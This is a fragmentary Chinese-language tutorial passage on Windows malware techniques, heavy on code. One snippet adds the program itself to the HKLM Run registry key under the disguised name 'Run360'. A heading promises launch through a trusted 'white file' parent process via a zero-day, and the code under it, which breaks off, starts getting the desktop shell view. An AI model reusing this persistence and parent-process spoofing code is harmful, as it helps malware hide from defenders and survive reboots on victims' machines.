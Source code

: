 ```
          0,
          0,
          0,
          0,
          &LibFileName,
          &v8) )
LABEL_22:
    v1 = LoadLibraryW(&LibFileName);
  FreeLibrary(hModule);
  return v1;
}
```

```
		HKEY hKey;
		//打开启动项Key 
		long lRet = RegOpenKeyExA(HKEY_LOCAL_MACHINE, "Software\\Microsoft\\Windows\\CurrentVersion\\Run", 0, KEY_WRITE, &hKey);
		if (lRet == ERROR_SUCCESS)
		{
			char pFileName[MAX_PATH] = { 0 };
			//得到程序自身的全路径 
			DWORD dwRet = GetModuleFileName(NULL, pFileName, MAX_PATH);
			//添加一个子Key,并设置值 // 下面的"getip"是应用程序名字（不加后缀.exe）
			lRet = RegSetValueEx(hKey, "Run360", 0, REG_SZ, (BYTE *)pFileName, dwRet);

			//关闭注册表 
			RegCloseKey(hKey);
			if (lRet != ERROR_SUCCESS)
			{
				//AfxMessageBox("系统参数错误,不能随系统启动");
			}
		}
		MessageBoxA(NULL, "test!!!", NULL, 0);
```

## 通过0DAY漏洞实现父进程白文件启动（四）

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1651668932003/10e81d3a035e42ddbdbf0b356aa156b5.png)

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1651668932003/ea1a409c040a438397c8e82d62b9883a.png)

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1651668932003/f48d7ad7f8e947a1b661b8e657ccedf0.png)

```
// Run_Explorer.cpp : 定义控制台应用程序的入口点。
//

#include "stdafx.h"
#include <windows.h>
#include <shlwapi.h>
#include <shlobj.h>

#pragma comment(lib, "shlwapi.lib")

// use the shell view for the desktop using the shell windows automation to find the
// desktop web browser and then grabs its view
//
// returns:
//      IShellView, IFolderView and related interfaces

HRESULT GetShellViewForDesktop(REFIID riid, void **ppv)
{
```